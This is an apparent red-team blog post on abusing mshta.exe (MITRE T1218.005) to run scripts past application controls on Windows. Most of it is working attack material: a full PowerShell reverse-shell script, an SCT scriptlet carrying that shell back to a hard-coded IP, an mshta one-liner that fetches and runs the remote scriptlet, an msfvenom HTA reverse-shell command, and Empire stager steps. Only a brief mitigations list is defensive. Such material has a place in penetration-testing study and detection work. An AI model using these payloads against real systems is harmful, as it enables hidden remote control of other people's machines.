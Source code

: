 ```yaml
---
title: MSHTA
date: 2022-04-01 05:49:33 +0800
categories: [Red Teaming, Defense Evasion]
tags: [redteam,defense-evasion, windows, mitre, mshta]     # TAG names should always be lowercase
---
```


# MITRE
- ID : `T1218.005`
- Tactic : `Defense Evasion`
- Platforms: `Windows`

# MSHTA
***Mshta.exe*** is a utility that executes Microsoft HTML Applications (HTA) files. Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. Mshta.exe can be used to bypass application control solutions that do not account for its potential use.

# Exploitations

## Command Prompt

### Execute VBscript To Invoke Calculator

***Execute the below commmand to invoke calculator***
```batch
mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""calc.exe"":close")

```
*invoking calculator*
![mshtacalcvbs](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/mshvbacalc.png)

### Execute VBscript To Get Reverse Shell

To get a reverse shell, copy the below powershell script to your .ps1 file, update the ip address and port to your reverse shell listener's ip and port, start your listener i.e `nc -nlvp [port]`, then execute the below command to get a reverse shell.

*reverse shell in powershell*
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.42.0.1',5000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Command

> `mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""powershell -w Hidden -file [path/to/your/file.ps1]"":close")`

*Executing rev.ps1 to get a reverse shell*
```batch
mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""powershell -w Hidden -file rev.ps1"":close")

```
![mshtarevshell](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/mshvbsrev.png)

***Getting reversh shell***
![mshtarevshell](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/kalimshtarev.png)

### Execute Javascript To Get Reverse Shell

To get a reverse shell, copy the below script to your .sct file, update the ip address and port to your reverse shell listener's ip and port, start your listener i.e `nc -nlvp [port]`, host .sct file on your server i.e `python3 -m http.server [port]` then execute the below command to get a reverse shell.

*content of exploit.sct*
```javascript

<?XML version="1.0"?>
<scriptlet>
  <!-- Reverse Shell -->

<public>
    <method name="Exec"></method>
</public>
<script language="JScript">
<![CDATA[

	function Exec()
	{
		var r = new ActiveXObject("WScript.Shell").Run('powershell -w Hidden -c "$client = New-Object System.Net.Sockets.TCPClient(\'170.170.6.136\',5000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + \'PS \' + (pwd).Path + \'> \';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"');
	}

]]>
</script>

</scriptlet>

```

Command

> `mshta.exe javascript:a=(GetObject('script:[file_url]')).Exec();close();`

*executing mshta to get reverse shell*
```bash
mshta.exe javascript:a=(GetObject('script:http://170.170.6.136:90/exploit.sct')).Exec();close();

```
![mshtarev](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdjswin.png)

*getting reversh shell*

![mshtarev](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdjsmshta.png)

## Metasploit 

### Generating .hta Exploit With Msfvenom

> `msfvenom -p [payload] lhost=[ip] lport=[port] -f hta-psh -o [file_name.hta]`

```bash
┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ msfvenom -p windows/shell_reverse_tcp lhost=192.168.43.1 lport=5000 -f hta-psh -o exploit.hta
To use retry middleware with Faraday v2.0+, install `faraday-retry` gem
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of hta-psh file: 7368 bytes
Saved as: exploit.hta
```

### Getting Command Shell 

*executing mshta*

command

> `mshta [file_url]`

![mshtameta](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/metawin.png)

*setting metasploit listener, getting reverse shell*

![mshtameta](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/metasploitmshta.png)


## Powershell Empire

Use `uselistener` to setup your listener, with the listener setup, use `usestager windows/hta` to generate your payload, host your payload on your server, then execute the following command on target system `mshta [http://your_host/your_file.hta]`

### Setting Listener

![empirelistener](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/empirelistener.png)

### Using windows/hta Stager

![empirestager](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/empirestager.png)

### Getting Reverse Shell

![empireshell](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/empireshell.png)

# Mitigations

- Disable or Remove Mshta.exe.
- Block execution of mshta.exe.

# References

- [https://attack.mitre.org/techniques/T1218/005/](https://attack.mitre.org/techniques/T1218/005/)
- [https://docs.microsoft.com/en-us/previous-versions//ms536471(v=vs.85)?redirectedfrom=MSDN](https://docs.microsoft.com/en-us/previous-versions//ms536471(v=vs.85)?redirectedfrom=MSDN)
- [https://atomicredteam.io/defense-evasion/T1218.005/](https://atomicredteam.io/defense-evasion/T1218.005/)
- [https://attack.mitre.org/techniques/T1218/005/](https://attack.mitre.org/techniques/T1218/005/)
- [https://attack.mitre.org/mitigations/M1038/](https://attack.mitre.org/mitigations/M1038/)
